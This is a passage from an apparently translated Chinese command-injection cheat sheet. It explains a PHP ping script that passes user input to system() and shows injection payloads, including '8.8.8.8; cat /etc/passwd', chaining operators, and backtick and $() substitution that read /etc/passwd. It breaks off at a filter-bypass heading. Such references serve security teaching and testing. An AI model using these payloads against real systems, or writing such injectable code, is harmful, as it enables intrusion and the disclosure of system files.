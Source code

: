 在上面的代码中，PHP脚本使用`system()`函数执行用户通过`ip` GET参数提供的IP地址或域名的`ping`命令。

如果攻击者提供类似`8.8.8.8; cat /etc/passwd`的输入，实际执行的命令将是：`ping -c 4 8.8.8.8; cat /etc/passwd`。

这意味着系统将首先`ping 8.8.8.8`，然后执行`cat /etc/passwd`命令，这将显示`/etc/passwd`文件的内容，可能会泄露敏感信息。

### 基本命令

执行命令，瞧！ :p

```powershell
cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
...
```

### 链接命令

在许多命令行界面中，特别是在类Unix系统中，有几个字符可以用来链接或操作命令。

- `;`（分号）：允许您顺序执行多个命令。
- `&&`（与）：仅在第一个命令成功（返回零退出状态）时执行第二个命令。
- `||`（或）：仅在第一个命令失败（返回非零退出状态）时执行第二个命令。
- `&`（后台）：在后台执行命令，允许用户继续使用shell。
- `|`（管道）：取第一个命令的输出，并将其用作第二个命令的输入。

```powershell
command1; command2   # 先执行command1，然后执行command2
command1 && command2 # 只有在command1成功时才执行command2
command1 || command2 # 只有在command1失败时才执行command2
command1 & command2  # 在后台执行command1
command1 | command2  # 将command1的输出管道到command2
```

### 命令内部

- 使用反引号进行命令注入。

  ```bash
  original_cmd_by_server `cat /etc/passwd`
  ```

- 使用替换进行命令注入

  ```bash
  original_cmd_by_server $(cat /etc/passwd)
  ```



## 绕过过滤器

### 不使用空格的绕过方法
